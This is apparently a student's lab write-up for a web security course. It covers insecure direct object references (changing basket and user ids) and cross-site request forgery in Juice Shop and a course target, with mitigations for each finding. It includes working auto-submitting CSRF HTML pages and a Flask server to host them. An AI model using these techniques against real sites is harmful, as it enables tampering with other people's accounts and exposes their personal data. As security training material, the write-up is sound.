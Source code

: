# Web Application Security

## Week 01  

### Authorization Bypass:

#### JuiceShop - View Basket

**Title:** Unauthorized user can view other users baskets.

**Description:** Web Application has insecure direct object vulnerability. Application stores unecrypted basket id in session storage when querying basket items from users basket. Changing basket id enables unauthorized user to view other users basket.

**Steps to produce:**  

1. Navigate to `https://wasdat.fi/3000`.
2. Login in to the website.
3. Head to basket.
4. Open developer tools and view `storage` tab.
5. In `storage` tab, select `session storage`.  
    5. You can find attribute `bid` = `basket id`.
6. Change `bid` value for example: `3`. Navigate to any other view in the website and open `basket` again.
7. Other users basket is now visible to you.  

<img src="../images/was1.PNG" style="width=500;" >

* Impact estimation:
    * Low Severity. User can make harm for other users such as add or remove items but can't access any
* Mitigation:
    * Use more complex identifiers, random generated UUIDs for example.
        * See ![4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)
    * Check two parameters: buid and authenticate for which user buid belongs to.  



---

#### Main target - Order history is vulnerable to Indirect Object Reference

**Title:** Unauthorized user can view other users order history and access address information.

**Description:** Web Application has insecure direct object vulnerability.  Application enables unauthorized user to view other user order history by chaning user id in the url address.

**Steps to produce:**  

1. Navigate to `https://wasdat.fi`.
2. Login in to the website.
3. When logged in hover over dropdown navigation on top left and press `order history`.
4. When viewing your order history, url is: `http://wasdat.fi/user/13/orders`.
5. Change user id to see view other peoples order history. user id `3` exposes the flag.
> `http://wasdat.fi/user/3/orders`  

<img src="../images/was2.png" style="width=500;" >


* Impact estimation:
    * Low Severity. User can access other users order history and view their address information.
* Mitigation:
    * Use more complex identifiers, random generated UUIDs for example.
        * See ![4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)
    * Check two parameters: buid and authenticate for which user buid belongs to.  
    * Don't include user id in url parameter.

---

### Cross Site Forgery

#### Juice Shop - Cross-Site Request Forgery (2 point) :

**Title:** Cross Site Forgery - Change victim username 

**Description:** Web Application allows cross site request and is vulnerable for forged websites to send http requests to application. This allows malicious websites execute `http:POST/`  request towards the website and change other users usernames.

**Steps to produce:**  

1. Create a new `html` file.
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Juice Shop Redirect</title>
        <script>
            window.onload = function() {
                document.getElementById("autoSubmitForm").submit();
            }
        </script>
    </head>

    <body>
        <form action="http://wasdat.fi:3000/profile" method="post" id="autoSubmitForm">
            <input name="username" value="ab0197" />
            <input type="submit">
        </form>
    </body>
</html>
```
2. Create a simple python server:

```py
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('form.html')

if __name__ == '__main__':
    app.run(debug=True)
```
3. Start sever `python3 app.py`
4. Victim user is logged in to `http://wasdat.fi:3000` and goes to your url, in this case: `http://127.0.0.1:5000/` his username will be automically changed to `ab0197` and will be directed to his profile page.  

<img src="../images/was3.png" style="width=500;" />


* Impact estimation:
    * Low Severity. User can make harm for other users by changing their usernames.
* Mitigation:
    * Require http headers not to allow requests from from other origins.
        * See: ![Cross-Site Request Forgery preventation](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#verifying-origin-with-standard-headers)
---

#### Main Target - Review product feature is vulnerable for CSRF attack

**Title:** Cross Site Forgery - Review product feature is vulnerable.

**Description:** Web Application has vulnerability in Review product feature. This vulnerability allows malicious website to send product reviews under other users name. In addition even though not exploited in this implementation, there is following vulnerabilities: 
    * csfr tokens are not hidden
    * cookies are not set to expire after session
    * double token validation is not implemented

**Steps to produce:**  

1. Create a new `html` file.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Wasdat Redirect</title>
    <script>
        window.onload = function() {
            document.getElementById("autoSubmitForm").submit();
        }
    </script>
</head>
<body>
        <form action="http://wasdat.fi/product/2" method="post" id="autoSubmitForm">
                <input name="review" value="ab0197"/>
                <input type="submit"/>
        </form>
</body>
</html>
```
2. Create a simple python server:

```py
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('form.html')

if __name__ == '__main__':
    app.run(debug=True)
```
3. Start sever `python3 app.py`
4. Victim user is logged in to `http://wasdat.fi/` and goes to your url, in this case: `http://127.0.0.1:5000/`. This makes automatic `http /post` request to `http://wasdat.fi/product/2` creating a new product review with value: `ab0197`. This new review is not visible to user untill he visits the page next time.  

<img src="../images/was4.png" style="width=500;" />
<img src="../images/was5.png" style="width=500;" />


* Impact estimation:
    * Low Severity. Malicious website can make harm for other users by posting product reviews under other users usernames.
* Mitigation:
    * Require http headers not to allow requests from from other origins.
    * csfr tokens and session id's should not be visible to users.
        * See: ![Token based mitigation](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#token-based-mitigation)
    * Require `http headers` not to allow requests from from other origins.
        * See: ![Cross-Site Request Forgery preventation](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#verifying-origin-with-standard-headers)



